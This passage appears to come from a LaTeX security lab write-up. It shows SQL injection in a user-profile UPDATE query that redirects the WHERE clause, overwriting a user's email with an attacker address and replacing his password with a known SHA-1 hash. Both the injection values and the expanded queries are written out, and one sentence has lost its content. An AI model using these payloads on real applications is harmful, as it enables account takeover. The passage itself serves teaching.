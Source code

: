 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Email overwrite expansion},
label={lst:l4_t2p1_compatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='', tel2='',
company='' WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',state='',
country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

\subsubsection{Part 2 - Change Bob's password}
Changing Bob's password is less straightforward as the password itself is stored as a hash. In order to give Bob's password a new value, we must first encode the new password using SHA-1. If the new password is "peter", then the hash would be "4b8373d016f277527198385ba72fda0feb5da015".

After obtaining the new password hash, we apply an injection similar to Subsection \ref{l4_t2p1}. Instead of putting the hash in the actual password fields, we embed the value pair in the injection. This is because in order for the redirection to work, the real search criteria (WHERE ID = 5) must be commented out. Doing so comes with a price of having to comment out all value pairs before the real search critera up to our new, fake search criteria (name = 'bob'). We therefore arrive at  and hence .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite injection},
label={lst:l4_t2p2_pwdatk},
frame=single]
$company = "', pass='4b8373d016f277527198385ba72fda0feb5da015'
               WHERE name = 'bob'#"
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite expansion},
label={lst:l4_t2p2_pwdatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='',tel2='',
company='', pass='4b8373d016f277527198385ba72fda0feb5da015'
WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',
state='',country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

